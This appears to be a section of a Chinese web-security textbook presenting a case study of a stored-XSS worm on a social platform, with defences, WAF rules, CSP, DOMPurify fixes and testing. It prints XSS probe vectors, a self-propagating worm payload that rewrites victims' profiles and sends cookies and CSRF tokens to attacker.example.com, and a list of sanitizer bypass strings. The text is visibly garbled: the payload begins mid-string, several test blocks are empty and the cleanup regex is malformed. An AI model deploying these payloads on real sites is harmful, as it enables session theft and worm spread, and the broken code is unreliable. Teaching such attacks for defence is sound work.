



## 14.22 案例二：社交平台存储型XSS蠕虫攻击

XSS蠕虫是Web安全领域最具破坏力的攻击形态之一。它将存储型XSS漏洞与自我传播机制结合，能够在短时间内指数级扩散，感染海量用户。2005年的Samy蠕虫在MySpace上仅用20小时就感染了超过100万用户，直接改写了互联网安全史。本案例分析一个发生在2023年社交平台上的存储型XSS蠕虫攻击，从漏洞发现、蠕虫设计、传播机制到防御方案，完整还原攻击全貌。

### 背景与目标平台

某社交平台（日活用户约200万）提供个人资料编辑功能，允许用户在签名区域使用富文本格式。平台采用自制的HTML过滤器，仅对`<script>`标签进行正则匹配过滤。这一设计选择为蠕虫攻击埋下了致命隐患。

**平台技术栈：**

| 层级 | 技术选型 | 安全相关配置 |
|------|----------|-------------|
| 前端 | React 18 SPA | 未部署CSP头 |
| 后端 | Node.js + Express | 会话通过JWT + Cookie管理 |
| 数据库 | MongoDB | 用户资料以原始HTML存储 |
| 缓存 | Redis | 未对序列化数据做安全校验 |

**攻击影响面：** 个人资料页面对所有访问者可见，且默认允许搜索引擎索引——这意味着蠕虫的有效载荷一旦植入，每一个页面访问都是一次潜在的感染机会。

### 第一阶段：漏洞发现

安全研究员在常规渗透测试中，注意到个人资料编辑功能的输入过滤逻辑存在明显缺陷。

#### 过滤机制逆向分析

平台的过滤代码如下：

```javascript
// 平台原始过滤逻辑（存在严重缺陷）
function sanitize(input) {
  // 仅过滤了 <script> 标签，且正则存在边界条件问题
  return input.replace(/<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi, '');
}
```

这段代码存在三个致命问题：

1. **白名单缺失**：只做了黑名单过滤（移除`<script>`），未实施白名单策略（只允许安全标签）
2. **事件处理器未过滤**：`onerror`、`onload`、`onfocus`等HTML事件属性完全未被处理
3. **正则绕过可能**：该正则在处理嵌套标签或畸形HTML时可能存在ReDoS（正则表达式拒绝服务）风险

#### 探测过程

研究员依次尝试以下向量，确认过滤器的行为边界：

```html
<!-- 测试1：script标签（被过滤） -->
<script>alert(1)</script>
<!-- 结果：被移除，输出为空 -->

<!-- 测试2：HTML事件处理器（未被过滤） -->

<!-- 结果：成功执行，弹出对话框 -->

<!-- 测试3：SVG标签（未被过滤） -->
<svg onload="alert(1)">
<!-- 结果：成功执行 -->

<!-- 测试4：iframe注入（未被过滤） -->
<iframe src="javascript:alert(1)">
<!-- 结果：成功执行 -->
```

确认存在存储型XSS漏洞后，研究员进一步测试了权限边界：

```javascript
// 测试5：检查是否可以读取当前用户Cookie


// 测试6：检查CSRF Token是否可获取

// 结果：CSRF Token可通过meta标签获取，且profile/update接口接受此Token
```

### 第二阶段：蠕虫Payload设计

确认漏洞可利用后，攻击者设计了一个具备自我传播能力的蠕虫载荷。蠕虫的核心设计思路是：**在感染用户资料时，将蠕虫代码嵌入其中，使得任何访问该用户资料页面的人都会被自动感染**。

#### 蠕虫架构概览



#### 核心蠕虫Payload

```html
';
      
      // 5. 修改受害者资料，完成自我复制
      fetch('/api/profile/update', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
          'X-CSRF-Token': csrfToken
        },
        credentials: 'include',
        body: JSON.stringify({
          bio: infectedBio
        })
      });
    }
    
    // 6. 窃取用户信息并回传
    fetch('https://attacker.example.com/exfil', {
      method: 'POST',
      body: JSON.stringify({
        cookies: document.cookie,
        uid: document.querySelector('[data-user-id]').dataset.userId,
        csrf: csrfToken,
        ua: navigator.userAgent,
        ts: Date.now()
      })
    });
  })();
">
```

**蠕虫设计中的关键技术决策：**

| 设计要素 | 实现方式 | 目的 |
|---------|---------|------|
| 感染检测 | 检查`data-worm-id`属性 | 避免同一用户重复感染，减少异常行为暴露 |
| 编码存储 | Base64编码蠕虫核心逻辑 | 绕过基于关键词的简单检测（如WAF规则） |
| 传播方式 | 利用已认证会话调用profile API | 不需要受害者交互，浏览器自动携带Cookie |
| 信息回传 | POST到外部服务器 | 收集Cookie用于后续攻击（账号接管） |
| 传播标识 | `data-worm-id` + 时间戳 | 用于攻击者追踪感染进度 |

### 第三阶段：传播与感染过程

#### 时间线

| 时间（T=0为初始感染） | 事件 | 感染数 |
|----------------------|------|--------|
| T+0min | 攻击者修改自己的资料，植入蠕虫 | 1 |
| T+5min | 首批受害者访问攻击者资料页 | ~50 |
| T+15min | 受害者的好友开始访问，二次传播启动 | ~500 |
| T+30min | 指数增长期，服务器CPU负载飙升 | ~3,000 |
| T+1h | 平台监控告警，安全团队开始排查 | ~15,000 |
| T+1.5h | 确认蠕虫攻击，开始制定修复方案 | ~40,000 |
| T+2h | 紧急部署WAF规则，开始阻断传播 | ~100,000 |
| T+2.5h | 强制下线平台，开始全面清理 | 停止扩散 |
| T+6h | 清理完成，平台恢复上线 | 0（已清理） |

#### 传播机制详解

蠕虫的传播利用了社交平台的三个固有特性：

1. **社交图谱密度高**：社交平台中用户之间的关注关系形成高度连通的图结构，平均每个用户有150+关注者，这意味着每个感染者可以将蠕虫传播给大量新目标
2. **个人资料页面高访问率**：社交场景中，用户频繁查看他人资料，个人资料页面的日均PV（页面浏览量）远高于普通Web应用
3. **单页面应用（SPA）不刷新**：React SPA中的路由切换不触发完整的页面重载，恶意脚本在首次注入后持续驻留在DOM中



**传播数学模型：** 假设每个感染者平均引发R个新感染（R₀），社交平台的R₀通常在3-5之间。当R₀ > 1时，蠕虫呈指数增长。本案例中，R₀约等于4，理论上每代感染数增长4倍。实际传播速度受平台DAU、用户活跃度、服务器处理能力等因素制约，但仍呈现明显的指数增长趋势。

### 攻击影响评估

#### 直接影响

| 影响维度 | 具体情况 | 严重程度 |
|---------|---------|---------|
| 感染账号 | 超过10万个用户账号被植入蠕虫代码 | 严重 |
| Cookie泄露 | 数千个活跃会话Cookie被回传至攻击者服务器 | 严重 |
| 账号接管 | 攻击者利用窃取的Cookie接管了约200个高价值账号 | 严重 |
| 服务中断 | 平台被迫下线2.5小时进行清理 | 高 |
| 用户信任 | 社交媒体上出现大量用户投诉和负面评价 | 高 |

#### 间接影响

- **搜索引擎缓存**：部分被感染的个人资料页面已被Google等搜索引擎缓存，即使清理后仍可能短暂保留恶意内容
- **品牌声誉**：事件被多家科技媒体报道，平台品牌信任度严重受损
- **合规风险**：涉及用户数据泄露，可能触发GDPR/个人信息保护法的通报义务
- **经济损失**：直接清理成本（安全团队人工 + 服务器资源）+ 用户流失带来的间接收入损失

### 根因分析与防御缺陷

本次事件的根本原因并非单一技术失误，而是**多层防御机制同时失效**的系统性问题：



**逐层分析：**

| 防御层 | 应有措施 | 实际状态 | 缺陷后果 |
|--------|---------|---------|---------|
| 输入过滤 | 白名单策略，只允许安全标签 | 黑名单策略，只过滤`<script>` | 事件处理器、SVG等向量完全未防御 |
| 输出编码 | 根据上下文做HTML/JS/URL编码 | 原样输出用户输入的HTML | 恶意代码在浏览器端直接执行 |
| CSP头 | 禁止内联脚本，限制脚本来源 | 未部署CSP | 即使绕过过滤，内联JS也可执行 |
| Cookie安全 | HttpOnly + Secure + SameSite | 未设置HttpOnly | JS可直接读取会话Cookie |
| 会话管理 | 频繁轮转Token、异常检测 | 静态JWT长期有效 | 窃取的Cookie可长期使用 |
| 监控告警 | API调用频率异常检测 | 无实时监控 | 蠕虫扩散2小时后才被发现 |

### 完整修复方案

修复分为三个层次：紧急止血、中期加固、长期架构升级。

#### 第一层：紧急止血（事件发生后立即执行）

**1. 部署WAF规则阻断蠕虫传播**

```regex
# ModSecurity规则示例
SecRule ARGS "@rx (?i)(onerror|onload|onfocus|onmouseover)\s*=" \
    "id:1001,phase:2,deny,status:403,\
    msg:'Block XSS event handler injection',\
    logdata:'Matched Args: %{MATCHED_VAR}'"

SecRule ARGS "@rx (?i)<\s*(img|svg|iframe|object|embed|body|input|marquee|details)" \
    "id:1002,phase:2,deny,status:403,\
    msg:'Block potentially dangerous HTML tags'"
```

**2. 临时关闭富文本编辑功能**

将个人资料编辑降级为纯文本输入，从根源阻断蠕虫的注入点。

**3. 批量清理感染数据**

```javascript
// MongoDB清理脚本：移除所有用户资料中的恶意代码
db.users.updateMany(
  { bio: { $regex: /onerror|onload|data-worm-id/i } },
  [
    {
      $set: {
        bio: {
          $replaceAll: {
            input: "$bio",
            find: /]*onerror[^>]*>/gi,
            replacement: "[内容已清理]"
          }
        }
      }
    }
  ]
);
```

#### 第二层：中期加固（1-2周内完成）

**1. 替换为成熟的HTML净化库**

```javascript
// 使用DOMPurify进行服务端HTML净化
import DOMPurify from 'isomorphic-dompurify';

const sanitizeProfileBio = (userInput) => {
  return DOMPurify.sanitize(userInput, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br', 'span'],
    ALLOWED_ATTR: ['href', 'title', 'class'],
    ALLOW_DATA_ATTR: false,
    // 禁止所有URI方案，只允许http/https
    ALLOWED_URI_REGEXP: /^https?:\/\//i,
    // 禁止HTML注释（常用于绕过）
    ALLOW_COMMENT: false
  });
};

// 使用示例
app.put('/api/profile/bio', (req, res) => {
  const cleanBio = sanitizeProfileBio(req.body.bio);
  // 存储净化后的内容
  db.users.updateOne(
    { _id: req.userId },
    { $set: { bio: cleanBio } }
  );
  res.json({ bio: cleanBio });
});
```

**2. 部署Content-Security-Policy**

```text
Content-Security-Policy: 
  default-src 'self';
  script-src 'self' 'nonce-{random}';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' https://api.example.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
```

CSP的关键策略解析：

| 指令 | 配置 | 防御效果 |
|------|------|---------|
| `script-src 'self' 'nonce-{random}'` | 只允许带正确nonce的脚本 | 完全阻断内联XSS脚本执行 |
| `connect-src 'self'` | XHR/fetch只能请求同源 | 阻断蠕虫的数据回传（exfiltration） |
| `frame-ancestors 'none'` | 禁止被iframe嵌入 | 防止点击劫持配合攻击 |
| `base-uri 'self'` | 限制`<base>`标签 | 防止基地址劫持 |

**3. Cookie安全加固**

```javascript
// Express会话配置
app.use(session({
  cookie: {
    httpOnly: true,    // JS不可访问
    secure: true,      // 仅HTTPS传输
    sameSite: 'lax',   // 防止CSRF
    maxAge: 3600000    // 1小时过期
  }
}));

// JWT存储在HttpOnly Cookie中，而非localStorage
res.cookie('session', jwt, {
  httpOnly: true,
  secure: true,
  sameSite: 'lax',
  maxAge: 3600000
});
```

**4. 实施输出编码**

即使存储了HTML，在关键场景仍需额外的输出编码层：

```javascript
// React组件中使用dangerouslySetInnerHTML时的防护
function UserProfile({ bio }) {
  // 即使后端已净化，前端再加一层防护
  const cleanBio = DOMPurify.sanitize(bio);
  return (
    <div 
      className="user-bio" 
      dangerouslySetInnerHTML={{ __html: cleanBio }} 
    />
  );
}

// 更安全的做法：完全避免dangerouslySetInnerHTML
// 将富文本存储为结构化数据（JSON），渲染时用组件映射
function SafeUserProfile({ bio }) {
  const blocks = JSON.parse(bio); // [{type: 'bold', text: '...'}, ...]
  return (
    <div className="user-bio">
      {blocks.map((block, i) => {
        switch (block.type) {
          case 'bold': return <strong key={i}>{block.text}</strong>;
          case 'italic': return <em key={i}>{block.text}</em>;
          case 'link': return <a key={i} href={sanitizeUrl(block.url)}>{block.text}</a>;
          default: return <span key={i}>{block.text}</span>;
        }
      })}
    </div>
  );
}
```

#### 第三层：长期架构升级（1-3个月）

**1. 输入验证与净化流水线**

```javascript
// 建立统一的输入净化中间件
const sanitizeMiddleware = (schema) => {
  return (req, res, next) => {
    // 第一层：Schema验证（类型、长度、格式）
    const { error, value } = schema.validate(req.body);
    if (error) {
      return res.status(400).json({ error: 'Invalid input' });
    }
    
    // 第二层：HTML净化
    for (const [key, val] of Object.entries(value)) {
      if (typeof val === 'string') {
        value[key] = DOMPurify.sanitize(val, sanitizeConfig);
      }
    }
    
    // 第三层：长度限制（防止XSS Payload超长绕过）
    for (const [key, val] of Object.entries(value)) {
      if (typeof val === 'string' && val.length > 1000) {
        return res.status(400).json({ error: 'Input too long' });
      }
    }
    
    req.body = value;
    next();
  };
};
```

**2. 异常行为检测系统**

```javascript
// 监控profile更新频率
const rateLimiter = new Map();

function detectWormBehavior(userId) {
  const now = Date.now();
  const history = rateLimiter.get(userId) || [];
  
  // 1分钟内超过3次profile更新 → 触发告警
  const recentUpdates = history.filter(t => now - t < 60000);
  if (recentUpdates.length >= 3) {
    securityAlert({
      type: 'POTENTIAL_WORM',
      userId,
      updateCount: recentUpdates.length,
      timeWindow: '1min'
    });
    // 临时锁定账号
    lockAccount(userId);
    return true;
  }
  
  history.push(now);
  rateLimiter.set(userId, history.slice(-100));
  return false;
}
```

**3. SRI（子资源完整性）校验**

确保所有加载的外部资源（JS/CSS）未被篡改：

```html
<script src="https://cdn.example.com/app.js" 
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC" 
  crossorigin="anonymous">
</script>
```

### 历史经典案例对比

理解XSS蠕虫的演化史有助于建立完整的安全认知。以下是历史上最具影响力的XSS蠕虫事件对比：

| 蠕虫名称 | 年份 | 平台 | 漏洞类型 | 感染速度 | 影响规模 | 关键教训 |
|---------|------|------|---------|---------|---------|---------|
| Samy Worm | 2005 | MySpace | 存储型XSS | 20小时100万用户 | 平台临时关闭 | 黑名单过滤的固有缺陷 |
| Mikeyy Worm | 2009 | Twitter | 存储型XSS | 数小时数万用户 | 众多名人账号被感染 | 用户资料字段的高危性 |
| Orkut Worm | 2010 | Orkut | 存型XSS | 短时间30万用户 | 信任型传播 | 社交平台的传播放大效应 |
| 本案例 | 2023 | 某社交平台 | 存储型XSS | 2小时10万用户 | 平台下线2.5小时 | SPA架构下的持久化风险 |

**Samy Worm的启示：** 2005年的Samy蠕虫由Samy Kamkar创建，利用MySpace个人资料页面的存储型XSS漏洞。其传播机制与本案例高度相似——感染用户资料，访问者自动执行恶意代码并感染自己的资料。Samy蠕虫的核心创新在于将`XMLHttpRequest`与DOM操作结合，实现了完全自动化的自我传播。尽管已过去近20年，其核心攻击原理在本案例中依然完全适用，这说明**XSS防御的根本困难在于HTML解析和JavaScript执行的复杂性远超任何简单的过滤规则所能覆盖的范围**。

### 测试验证方法

修复后需要系统性验证防御措施的有效性。

#### 自动化XSS检测

```bash
# 使用Dalfox进行XSS扫描
dalfox url "https://example.com/profile/test" \
  --custom-payload ./xss-payloads.txt \
  --blind "https://your-callback.example.com" \
  --timeout 10

# 使用XSStrike进行深度检测
python3 xsstrike.py -u "https://example.com/api/profile/update" \
  --data '{"bio":"test"}' \
  --headers "Content-Type: application/json" \
  --skip-dom
```

#### CSP验证

```bash
# 使用Mozilla Observatory检查CSP配置
curl -s "https://http-observatory.security.mozilla.org/api/v1/analyze?host=example.com" | jq .

# 手动测试CSP是否生效
curl -I https://example.com | grep -i content-security-policy
# 预期输出：Content-Security-Policy: script-src 'self' 'nonce-xxx'; ...
```

#### DOMPurify绕过测试

```javascript
// 测试已知的DOMPurify绕过向量（验证修复完整性）
const bypassTests = [
  // SVG相关
  '<svg><animate onbegin="alert(1)" attributeName="x" dur="1s">',
  '<svg><set onbegin="alert(1)">',
  
  // MathML相关
  '<math><mtext><table><mglyph><style><!--</style>',
  
  // data:URI
  '<a href="data:text/html,<script>alert(1)</script>">click</a>',
  
  // CSS表达式（IE）
  '<div style="background:url(javascript:alert(1))">',
  
  // Mutation XSS
  '<noscript><p title="</noscript>">',
];

bypassTests.forEach(payload => {
  const result = DOMPurify.sanitize(payload, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
    ALLOWED_ATTR: ['href', 'title']
  });
  
  if (result.includes('onerror') || result.includes('alert(1)')) {
    console.error(`BYPASS FOUND: ${payload}`);
  } else {
    console.log(`BLOCKED: ${payload}`);
  }
});
```

### 防御纵深策略

单一防御措施不足以应对XSS蠕虫的威胁。必须建立**纵深防御**体系，确保任何单点失败都不会导致整体防线崩溃：

```mermaid
graph TD
    subgraph "纵深防御体系"
        L1["第1层：输入验证<br/>Schema校验 + 长度限制 + 类型检查"]
        L2["第2层：输入净化<br/>DOMPurify白名单策略"]
        L3["第3层：安全存储<br/>净化后的HTML存储于数据库"]
        L4["第4层：输出编码<br/>根据上下文的HTML/JS/URL编码"]
        L5["第5层：CSP策略<br/>禁止内联脚本，限制连接目标"]
        L6["第6层：Cookie安全<br/>HttpOnly + Secure + SameSite"]
        L7["第7层：行为监控<br/>API调用频率检测 + 异常告警"]
        L8["第8层：应急响应<br/>一键下线 + 批量清理 + 通知用户"]
    end

    L1 --> L2 --> L3 --> L4 --> L5 --> L6 --> L7 --> L8

    style L1 fill:#1a1a2e,stroke:#e94560,color:#fff
    style L2 fill:#1a1a2e,stroke:#e94560,color:#fff
    style L3 fill:#1a1a2e,stroke:#e94560,color:#fff
    style L4 fill:#1a1a2e,stroke:#e94560,color:#fff
    style L5 fill:#1a1a2e,stroke:#e94560,color:#fff
    style L6 fill:#1a1a2e,stroke:#e94560,color:#fff
    style L7 fill:#1a1a2e,stroke:#e94560,color:#fff
    style L8 fill:#1a1a2e,stroke:#e94560,color:#fff
```



### 常见误区

**误区1："我过滤了`<script>`标签就安全了"**

事实：`<script>`只是众多XSS执行向量中最明显的一个。``、`<svg onload>`、`<iframe src=javascript:>`、CSS表达式、事件处理器等数十种向量均可触发JavaScript执行。黑名单策略注定失败，因为攻击者总能找到新的绕过方式。

**误区2："CSP可以完全阻止XSS"**

事实：CSP是重要的防御层，但非万能药。如果CSP配置允许`unsafe-eval`或`unsafe-inline`，则形同虚设。此外，JSONP端点、Angular模板注入等技术可以绕过部分CSP配置。CSP应作为纵深防御的一层，而非唯一防线。

**误区3："前端框架（React/Vue）自动防XSS"**

事实：框架在默认行为上确实有较好的防护（如React会自动转义JSX中的变量），但`dangerouslySetInnerHTML`、`v-html`等API会绕过这些保护。当开发者需要渲染富文本时，必须使用净化库进行预处理。

**误区4："XSS只是弹个对话框，危害不大"**

事实：存储型XSS可以窃取Cookie（会话劫持）、冒充用户执行操作（CSRF）、记录键盘输入（键盘记录器）、挖矿（注入加密货币挖矿脚本）、传播蠕虫（如本案例）。XSS在OWASP Top 10中长期位居前列，绝非"低危"漏洞。

**误区5："用了WAF就不需要代码层面的防护"**

事实：WAF的检测基于规则匹配，精心构造的XSS Payload可以绕过大多数WAF规则。代码层面的净化（DOMPurify白名单策略）+ 输出编码才是根本防线，WAF只是额外的防护层。

### 思考与延伸

1. **XSS蠕虫 vs. 传统病毒**：XSS蠕虫完全在浏览器端运行，不需要用户下载或安装任何东西，仅通过正常的页面访问即可传播。这种"零交互传播"特性使其比传统病毒更难防御。

2. **SPA架构的特殊风险**：在传统多页面应用中，XSS脚本的生命周期限于当前页面——页面跳转后脚本即被清除。但在SPA中，路由切换不刷新页面，恶意脚本可以长期驻留在DOM中，这大幅提高了蠕虫的传播效率。

3. **Mutation XSS（mXSS）**：即使使用了净化库，浏览器解析HTML时的上下文差异也可能导致净化后的"安全"HTML被浏览器重新解析为包含恶意代码的HTML。这是当前XSS防御领域最前沿的研究方向之一。

4. **伦理边界**：安全研究者在发现XSS漏洞时，应遵循负责任的漏洞披露流程：不主动在生产环境中利用漏洞，不窃取用户数据，不公开未修复的漏洞细节。本案例中研究员的行为是合法的授权渗透测试，未经授权的类似行为可能触犯法律。

***

> **关联知识**：本案例涉及的核心漏洞类型属于OWASP Top 10 2021中的 **A03 注入（Injection）**——XSS是注入攻击的一个重要子类。详细的XSS原理与分类请参阅 [14.4 A03 注入](../理论基础/04-144A03注入Injection.md)，防御编码技巧请参阅 [14.20 防御编码核心技巧](../核心技巧/08-1420防御编码核心技巧.md)。
